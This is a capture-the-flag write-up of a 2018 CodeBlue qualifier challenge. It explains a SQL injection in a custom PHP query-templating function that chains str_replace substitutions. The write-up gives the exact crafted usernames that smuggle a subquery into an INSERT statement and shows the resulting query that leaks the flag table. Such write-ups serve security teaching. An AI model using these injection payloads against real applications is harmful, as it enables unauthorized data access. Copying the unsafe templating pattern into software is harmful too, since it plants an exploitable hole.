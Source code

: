 2018 CodeBlue CTF quals - MortAl mage aGEnts #1
===============================================

On the surface this is a nice challenge, all sources given including: database init scripts,
admin xss automation, even docker-compose files. On the inside this challenge was mostly about
time wasted on inexplicable recaptcha-party and hundreds of users registered manually. I wish
we fired up the challenge, stripped recaptcha-free from the beginning. I suppose that's why
they gave us every source, didn't they.


TL;DR
-----

Registered 3 users:

 - user#1: this is where the tampered transaction is inserted.

   name: `hege2`

 - user#2 - this receives the money

   name: `hege2:notes`

 - user#3 - this one sends the money

   name: `,1,1,(select * from flag1)) -- hege2`

Connected `user#2` and `user#3` with a transactor-id, and sent some money. The flag was
inserted onto `user#1`s dashboard.


Details
-------

There was a vulnerability in the custom sql templating implementation. `str_replace` blindly
replaces the arguments one after other, making some chaining possible. So when we control an
argument, we can create new injection points for the rest of the arguments.

    // DB.php

    $search = [];
    $replace = [];
    foreach ($param as $key => $value) {
        $search[] = $key;
        $replace[] = sprintf("'%s'", mysqli_real_escape_string($this->link, $value));
    }
    $sql = str_replace($search, $replace, $sql);

So we searched for sql queries where we control more than one argument. Found only one good
candidate: `/transfer` in `account.php`. And the vulnerable parameter **is the username again
:@**. Anyway, we have our injection, so looking at the vulnerability:

    ...
    $notes = sprintf('%s remitted', $_SESSION['user_id']);
    ...
    $app->db->query(
        "INSERT INTO account (user_id, debit, credit, notes) VALUES (:user_id, 0, ${amount}, :notes)",
        [':user_id' => $dstUsers['user_id'], ':notes' => $notes]
    );

    // ${amount} is whitelisted for numbers, just in case you're wondering why we didn't use
    // it

So we registered `hege2:notes` and `,1,1,(select * from flag1)) -- hege2`, which caused these
interpolations:

    # user_id == 'hege2:notes'
    # notes == ',1,1,(select * from flag1)) -- hege2 remitted'
    INSERT INTO account (user_id, debit, credit, notes) VALUES (:user_id, 0, ${amount}, :notes)
    INSERT INTO account (user_id, debit, credit, notes) VALUES ('hege2:notes', 0, 1, :notes)

Ultimately leading to

    INSERT INTO account (user_id, debit, credit, notes) VALUES ('hege2',1,1,(select * from flag1)) -- hege2 remitted'', 0, 1, ',1,1,(select * from flag1)) -- hege2 remitted')

Which inserted the flag into `hege2`-s transaction history.
